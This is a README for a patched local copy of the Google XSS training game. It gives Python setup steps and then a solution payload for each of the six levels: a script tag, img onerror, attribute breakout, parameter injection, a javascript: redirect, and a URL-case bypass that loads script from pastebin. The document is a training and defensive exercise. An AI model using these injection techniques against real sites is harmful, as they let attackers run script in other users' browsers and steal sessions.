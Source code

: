 # CSS-GAME

## Installation:

Install python 2.7 via brew, gzip, anaconda etc.

Install packages:
```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python get-pip.py
pip install WebOb
pip install Paste
pip install webapp2
pip install Jinja2
```

## Usage:
Go to level folder e.g. level2 and run `.py` file:
```
cd level2/
python level2.py
```

Check game at http://127.0.0.1:8080 

Origin source: https://xss-game.appspot.com

### Were prevented 6 levels of XSS attacks described below:
### If you want to check initial game where this is working, go to the game site: https://xss-game.appspot.com ###
 # 1 Just insert following code and you're done:
  <script>alert('xss')</script>
 # 2 Use an img tag along with the onerror attribute:
  <\img src="notexist.url" onerror="javascript:alert('xss')"/>
 # 3 Use the onerror attribute to insert JS:
  https://xss-game.appspot.com/level3/frame#3' onerror="alert('xss')";
# 4 Insert the request:
  https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
# 5 Steps:
  - insert the request:
    https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
  - Click next
# 6 You're not allowed to have a URL containing https. Insert the request to an evil file:
  https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
